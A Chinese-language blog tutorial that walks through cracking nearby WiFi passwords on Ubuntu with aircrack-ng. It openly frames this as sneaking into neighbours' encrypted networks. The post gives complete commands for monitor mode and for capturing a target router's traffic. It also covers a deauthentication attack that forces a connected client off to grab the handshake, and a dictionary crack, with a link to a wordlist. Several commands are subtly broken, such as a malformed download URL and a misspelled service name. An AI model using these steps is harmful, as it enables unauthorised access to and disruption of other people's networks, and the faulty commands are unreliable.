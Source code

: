```yaml
---
title: Linux 暴力破解WIFI密码
date: 2017-10-07 14:21:47
tags:
- 破解
- 网络安全
categories: 代码笔记
author:
	nick: 王恒

subtitle: linux 暴力破解附近 WiFi 密码，亲测可行。主要你有足够强大的字典以及CPU，理论上可以破解任何密码

cover: http://oe3vwrk94.bkt.clouddn.com/20180517-2.jpg
---
```

请一直相信，任何牛逼的技术都是被苦逼的现实需求逼迫的。
当你抱着你的Mac、Iphone、Ipad准备打开王者荣耀，大喊一声“是时候展现真的技术了！”，结果你却发现这TMD没有网！！！啊啊啊啊啊，什么！你说这个世界如果没有了网络，你都找不到活着的意义？no no no，望着周围的一个个加密的wifi。于是，我决定来一场悄无声息的潜入.........

<!-- more -->
### 1.1 运行环境
- ubuntu 16.04
- 可用的无线网卡

### 1.2 安装aircrack
```
# 下载
wget http://download,aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz
# 解压
tar -zxvf aircrack-ng-1.2-rc2.tar.gz
# 进入目录
cd aircrack-ng-1.2-rc2.tar.gz
# 安装
make install
```

### 1.3 打开网络监听
```
# 关闭网络干扰
sudo airmon-ng check kill

# 查看网卡信息
iwconfig

# 打开监听(wlan0 为无线网卡接口名称)
airmon-ng start wlan0
```

### 1.4 监听网络
```
# 可用看到附近的WIFI情况
sudo airodump-ng mon0
```

这时候可用看到周围一些wifi信息，我们破解wifi 用到的是BSSID（路由器 Mac 地址）， CH（频道），ESSID（WIFI 名称）。

### 1.5 监听指定网络并写入文件
终端输入命令
```
sudo airodump-ng --bssid 路由器Mac地址 -c 频道 -w ./mywifi/tmp mon0
# -c 后面是监听指定wifi所在的频道
# -w 后面指定的是文件要写入的路径
# -mon0 是之前我们指定的网卡接口名称
```

### 1.6 获取握手包
打开一个新的终端， 输入
```
sudo aireplay-ng -0 2 -a 路由器 Mac 地址 -c 客户端 Mac 地址 mon0
# -a 后面是监听的路由器Mac地址
# -c 后面的是客户机器的Mac地址（正在连接此路由器的设备）
```

### 1.7 破解密码
此时你的./mywifi 文件夹下面已经写入了一些文件，此时你还缺少.txt字典文件。点击下载[百度云盘字典文件](http://pan.baidu.com/s/1nuDVqwl) 下载密码：wj1e

执行破解

```
# 1.txt 为字典文件
# tmp-02.cap 为 1.6 获取在./mywifi 文件夹下的握手包
sudo aircrack-ng -w 1.txt tmp-02.cap
```
当屏幕出现KEY FOUND! [ 破解出来的密码 ]

### 1.8 善后
 关闭网络监听
 ```
 sudo airmon-ng stop mon0
 ```

开启网络
```
sudo service network-mannger start
```
### 2.0 完
